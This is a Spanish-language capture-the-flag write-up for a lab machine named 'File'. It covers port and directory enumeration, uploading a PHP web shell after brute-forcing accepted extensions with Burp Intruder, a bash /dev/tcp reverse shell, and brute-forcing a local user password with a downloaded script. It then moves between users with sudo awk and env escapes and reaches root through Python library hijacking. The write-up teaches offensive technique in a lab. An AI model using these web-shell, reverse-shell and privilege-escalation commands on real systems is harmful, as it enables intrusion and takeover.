# File - Writeup

## Resumen
File nos presenta una máquina en la cual tendremos que usar burpsuite para interceptar una petición y ajustarla de acuerdo a los filtros para luego realizar una reverse shell, dentro del sistema iremos saltando de usuarios hasta aplicar un **Python Library Hijacking** y escalar a usuarios root.

## Paso N1: Reconocimiento
Empezaremos escaneando los puertos TCP abiertos en la máquina con sus respectivos servicios y versiones
```
nmap 172.17.0.2 -sS -sVC -n -Pn -p- --open --min-rate 5000 -oG open_ports
```


Podemos ver que están abiertos los puertos 21 y 80 correspondientes a los servicios ftp y http.

En esta máquina especificamente, no profundizaré en el servidor ftp dado a que no tiene información relevante (recomendable entrar para experimentar y sacar criterio propio.)

## Paso N2: Busqueda de subdirectorios
Ya que no hay información relevante en el servidor ftp, empezaremos la busqueda de subdirectorios con ```gobuster```
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html
```


Vemos que tenemos los subdirectorios ```/uploads/``` y ```/file_upload.php``` disponibles.

Al entrar a ```/uploads/``` podemos ver que es un **Directory Listing**


No hay mucho que hacer aqui.

Al entrar a ```/file_upload.php```


Podemos ver que que nos deja subir un archivo, por lo que pasaremos a explotar esta función.

## Paso N3: Entendiendo el problema
La idea es hacer que la página ejecute código php para desde ahí poder trabajar, por lo que creamos el script malicioso:
```
echo '<?php        
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
<form method="GET">
    <input type="text" name="cmd" placeholder="Escribe tu comando aquí" style="width:400px">
    <input type="submit" value="Ejecutar">
</form>' > script.php
```
Si lo intentamos subir, nos dirá ```No se ha cargado ningun archivo o hubo un error.```

Es probable que lo que esté fallando sea la extensión, por lo que intentaremos interceptar la petición y hacerle fuerza bruta a las extensiones a ver cual de todas nos permite subirla correctamente.

## Paso N4: Interceptando la petición
Entraremos a burpsuite en modo escucha e interceptaremos la petición que hicimos subiendo ```script.php``` y lo enviaremos al intruder


Agregaremos los ```§§``` al ```.php```, quedando ```§.php§```. Configuraremos el payload en **Simple list** y buscaremos alguna wordlist de extensiones, en este caso, usaré ```/usr/share/seclists/Discovery/Web-Content/web-extensions.txt``` y desactivaremos el URL-encode (final del todo en el apartado de payloads)



Y empezaremos el ataque. Podemos notar que la extension ```.phar``` tiene más tamaño que las demás extensiones, por lo que si entramos y vemos la respuesta, veremos que el archivo se subió correctamente


## Paso N5: Generando reverse shell
Una vez subido el archivo, veremos que se verá reflejado en el **Directory Listing** ```/uploads/```


Entraremos al archivo y veremos que tenemos un input para poder colocar comandos. por lo que ahora, escuchando en una terminal con ```nc -lvnp 443``` ejecutaremos la reverse shell de la siguiente manera:
```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```


Y finalmente tendremos acceso a la máquina.

**Nota Post-Write up: Sanitizar: ```python3 -c 'import pty; pty.spawn("/bin/bash")'```** 

## Paso N6: Preparando herramientas necesarias
Una vez dentro, en el directorio ```/home/``` veremos que tenemos 4 usuarios, por lo que tendremos que buscar acceder a uno de ellos. Obviaremos las técnicas usuales de búsqueda de credenciales ya que ninguna se aplica en esta máquina.


Para poder acceder a uno de los usuarios, tendremos que hacer fuerza bruta mediante algún script/programa externo, ya que no estamos en un servidor ssh o ftp.

Utilizaremos una herramienta creada por mi llamada [KaiteForce](https://github.com/kaiteMuak/KaiteForce) la cual nos permitirá hacer fuerza bruta en local, la descargaremos de la siguiente forma:
```
wget --no-check-certificate -q 'https://raw.githubusercontent.com/kaiteMuak/KaiteForce/refs/heads/main/kforce.sh'
```
Luego, abriremos un servidor python en la ruta donde tenemos [KaiteForce](https://github.com/kaiteMuak/KaiteForce) descargada (importante tener ```rockyou.txt``` o cualquier otra wordlist en la misma ruta)
```
python3 -m http.server 8000
```
y en la máquina victima descargaremos los archivos necesarios en ```/tmp/``` (ya que es una carpeta donde tenemos permisos) de la siguiente manera:
```
wget http://172.17.0.1:8000/kforce.sh
wget http://172.17.0.1:8000/rockyou.txt
```


## Paso N7: Fuerza bruta con Kforce
Una vez ya tengamos [KaiteForce](https://github.com/kaiteMuak/KaiteForce) y ```rockyou.txt``` en la máquina victima, podemos hacer fuerza bruta dándole permisos
```
chmod +x kforce.sh
```
y ejecutando 
```
./kforce.sh
```


Vemos que las credenciales del usuario fernando son: ```fernando:chocolate``` por lo que ahora podemos acceder.

## Paso N8: Descubriendo credenciales
Una vez ya dentro del usuario ```fernando``` podemos ver que en su ```/home/fernando``` hay una imágen, por lo que la pasamos a la máquina atacante abriendo un servidor 
```
python3 -m http.server 8000
```
y pasando a nuestra máquina con:
```
wget http://172.17.0.2:8000/dragon-medieval.jpeg
```


y una vez la tengamos en nuestra máquina, usaremos ```stegcracker```


Esto nos dejará ```dragon-medieval.jpeg.out``` dentro tiene un hash, cual contenido es:

```
password123
```

## Paso N9: Accediendo a usuarios
Una vez ya tenemos la contraseña de uno de los usuarios, probaremos la contraseña en cada uno


Y vemos que podemos acceder a mario.

Dentro de usuario mario, ejecutaremos ```sudo -l``` y veremos

```
(julen) NOPASSWD: /usr/bin/awk
```
De acuerdo con GTFObins, ejecutamos 
```
sudo -u julen awk 'BEGIN {system("/bin/sh")}'
```

y entramos al usuario julen, el cual nuevamente hacemos ```sudo -l```

```
(iker) NOPASSWD: /usr/bin/env
```
Nuevamente, de acuerdo a GTFObins, ejecutamos 
```
sudo -u iker env /bin/sh -p
```
y accedemos al usuario iker.

## Paso N10: Escalando privilegios
Una vez ya como usuario iker, podemos ejecutar ```sudo -l```

```
(ALL) NOPASSWD: /usr/bin/python3 /home/iker/geo_ip.py
```
podemos ver que en el directorio ```/home/iker/``` hay un script de python el cual tiene la declaración
```
import requests;
```


Por lo que podemos hacer **Python library hijacking**. 
```
echo 'import os; os.system("/bin/bash")' > /home/iker/requests.py
```
Y ahora si ejecutamos
```
sudo /usr/bin/python3 /home/iker/geo_ip.py
```
y finalmente seremos usuarios root.


